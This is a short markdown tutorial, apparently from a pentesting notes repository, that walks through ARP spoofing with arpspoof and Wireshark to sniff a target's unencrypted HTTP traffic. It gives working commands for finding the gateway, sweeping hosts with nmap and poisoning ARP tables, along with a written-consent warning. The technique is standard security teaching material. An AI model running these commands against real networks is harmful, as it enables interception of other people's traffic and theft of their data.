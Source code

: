 # ARP Spoofing

### Tools

arpspoof \(kali\) -- works by forging ARP replies to communicating parties

**Requirements**

arpspoof / dsniff

Wireshark

### Sniffing on a private network - Step by Step

Figure out the Default Gateway first by command:

```
route -n
```

Narrow down the target by running \`nmap\` sweep

> Be sure to get written consent for any network scanning activities. Criminal penalties can be levied onto you if permission is not granted.

```
nmap [host-network]
```

To start ARP spoofing, run

```
sudo arpspoof -i [interfacename] -c host -t [target-ip] [default-gateway-ip]
```

e.g.

```
sudo arpspoof -i wlan0 -c host -t 192.168.1.122 192.168.1.1
```

arpspoof should now be sending arp replies to the gateway and target with spoofed addresses

Open Wireshark and apply the `tcp port http` to listen to unencrypted traffic between the router and the target.

```
tcp port http
```

Once done, stop the `arpspoof` process to depoison ARP tables in gateway and target.

```
> arpspoof
[Ctrl+C] to send SIGINT signal
```



